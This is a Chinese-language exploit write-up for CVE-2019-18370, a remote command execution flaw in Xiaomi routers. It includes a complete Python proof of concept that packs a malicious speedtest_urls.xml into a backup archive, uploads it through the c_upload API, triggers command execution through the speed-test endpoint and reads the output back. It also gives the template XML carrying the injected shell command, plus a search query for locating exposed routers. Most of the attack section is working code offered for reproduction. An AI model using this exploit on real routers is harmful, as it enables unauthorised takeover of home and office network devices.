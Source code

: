 # 小米 路由器 c_upload 远程命令执行漏洞 CVE-2019-18370

## 漏洞描述

小米路由器存在接口，备份文件是tar.gz格式的，上传后tar zxf解压，所以构造备份文件，可以控制解压目录的文件内容，结合测试上传下载速度功能的sh脚本执行时读取测试url列表文件，并将url部分直接进行命令拼接执行。

## 漏洞影响

<a-checkbox checked>小米 路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="小米路由器"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1657436243071-4b71b87e-5cc9-4a15-8395-f50c27bda619-20220710155157295.png)

验证POC

```php
import os
import tarfile
import requests

# proxies = {"http":"http://127.0.0.1:8080"}
proxies = {}

## get stok
stok = input("stok: ")

## make config file
command = input("command: ")
speed_test_filename = "speedtest_urls.xml"
with open("template.xml","rt") as f:
    template = f.read()
data = template.format(command=command)
# print(data)
with open("speedtest_urls.xml",'wt') as f:
    f.write(data)

with tarfile.open("payload.tar.gz", "w:gz") as tar:
    # tar.add("cfg_backup.des")
    # tar.add("cfg_backup.mbu")
    tar.add("speedtest_urls.xml")

## upload config file
print("start uploading config file ...")
r1 = requests.post("http://xxx.xxx.xxx.xxx/cgi-bin/luci/;stok={}/api/misystem/c_upload".format(stok), files={"image":open("payload.tar.gz",'rb')}, proxies=proxies)
# print(r1.text)

## exec download speed test, exec command
print("start exec command...")
r2 = requests.get("http://xxx.xxx.xxx.xxx/cgi-bin/luci/;stok={}/api/xqnetdetect/netspeed".format(stok), proxies=proxies)
# print(r2.text)

## read result file
r3 = requests.get("http://xxx.xxx.xxx.xxx/api-third-party/download/extdisks../tmp/1.txt", proxies=proxies)
if r3.status_code == 200:
    print("success, vul")
    print(r3.text)
```

template.xml 文件

```php
<?xml version="1.0"?>
<root>
    <class type="1">
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
    </class>
    <class type="2">
        <item url="http://192.168.31.1 -q -O /dev/null;{command}>/tmp/1.txt;"/>
    </class>
    <class type="3">
        <item uploadurl="http://www.taobao.com/"/>
        <item uploadurl="http://www.so.com/"/>
        <item uploadurl="http://www.qq.com/"/>
        <item uploadurl="http://www.sohu.com/"/>
        <item uploadurl="http://www.tudou.com/"/>
        <item uploadurl="http://www.360doc.com/"/>
        <item uploadurl="http://www.kankan.com/"/>
        <item uploadurl="http://www.speedtest.cn/"/>
    </class>
</root>
```

接口为后台权限接口，需要通过任意文件读取漏洞获取 stok

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1657439236976-27a33bc3-42ff-412f-9e66-4c57198d42fe.png)